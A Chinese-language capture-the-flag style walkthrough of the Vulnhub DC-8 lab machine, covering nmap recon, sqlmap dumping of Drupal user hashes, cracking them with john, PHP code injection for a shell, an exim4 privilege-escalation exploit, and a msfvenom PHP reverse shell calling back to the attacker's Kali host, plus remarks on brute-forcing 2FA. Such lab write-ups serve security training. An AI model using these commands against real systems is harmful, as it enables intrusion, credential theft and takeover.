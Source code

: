 ```yaml
---
title: 'DC-8 : Walkthrough'
date: 2020-05-24T18:37:43+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机       | IP              |
| --------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali      | `192.168.1.112` |
| DC-8      | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`

![1.png](https://i.loli.net/2020/05/24/mUYbfWJNcvtaVEq.png) 

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Drupal 7** CMS

![2.png](https://i.loli.net/2020/05/24/cWGVl63gUh8ybj2.png) 

经过 OSINT 查找得知该版本有许多漏洞，但是利用都不成功。

此外观察到导航栏选项链接与页面中的链接不一致，并且带有参数 `?nid=2` ，看到带查询参数，第一反应就是存在 SQL注入，经过简单验证可证明存在注入漏洞

![3.png](https://i.loli.net/2020/05/24/8xrMQ3fWTcqSONK.png) 

之后用 _sqlmap_ 工具进行 SQL 注入

<pre><code class="language-sql line-numbers">sqlmap -r post.txt --dbs --batch
sqlmap -r post.txt -D d7db --tables --batch
sqlmap -r post.txt -D d7db -T users --columns --batch
sqlmap -r post.txt -D d7db -T users -C "name,pass" --dump --batch
</code></pre>

![4.png](https://i.loli.net/2020/05/24/8aXg3IPdzHm6oUY.png) 

使用 _john_ 破解 hash 密码

![5.png](https://i.loli.net/2020/05/24/1n6fL4K8zmB3aeb.png) 

得到一个账户和密码：`john:turtle`。使用该账户登录系统，探索后发现在 _webform_ 的 _form settings_ 选项中可以插入 PHP 代码

### Getshell

![6.png](https://i.loli.net/2020/05/24/b94lIngovxjLQfV.png) 

切换到有填写表单的页面，随意输入一些信息后提交即可 getshell

![7.png](https://i.loli.net/2020/05/24/2MIsar7YpKCW4Pk.png) 

在 _/home/dc8user_ 目录下有个隐藏文件 `.google_authenticator`。因此该账户使用 ssh 登录时会有 2FA 认证

![8.png](https://i.loli.net/2020/05/24/R9BQe2CSqATiJ1j.png) 

> 查看下系统中安装的 Google 2FA ：`dpkg -l | grep google*`
> 
> <pre><code class="line-numbers">ii  libpam-google-authenticator   20160607-2+b1                  amd64        Two-step verification
</code></pre>
> 
> 在网上找到绕过 2FA 的几个[方法](https://shahmeeramir.com/4-methods-to-bypass-two-factor-authentication-2b0075d9eb5f) 

接下来我们查找具有 SUID 权限的工具

![9.png](https://i.loli.net/2020/05/24/mOeTEP1UMLh63Jv.png) 

其中 _exim4_ 比较可疑

![10.png](https://i.loli.net/2020/05/24/GfubaNgQPxEnyFi.png) 

搜索一下该软件漏洞

![11.png](https://i.loli.net/2020/05/24/XM6SK9tuDQNFRcs.png) 

### 提权

将该脚本传到虚拟机上后执行

> 更改下换行符：`sed -i "s/\r//" 46996.sh` 

![12.png](https://i.loli.net/2020/05/24/tk6lFMcGEBmyn1j.png) 

### 总结

1 . 插入 PHP 代码时，使用 _msfvenom_ 生成 **php** 反向 shell 代码： 

```
msfvenom -p php/reverse_php LHOST=192.168.1.112 LPORT=8888 -f raw -o recvshell.php
```

同时 Kali 端运行 msf

```
use exploit/multi/handler
set payload php/reverse_php
```

> `ctrl+z` 将会话放置到后台 

2 . 虽然知道 ssh 登录时会进行 2FA 认证，认证密码是 6 个数字，可以采取暴力破解。但是在输入认证密码之后仍然需要输入密码，因此想要绕过 2FA 难度较大

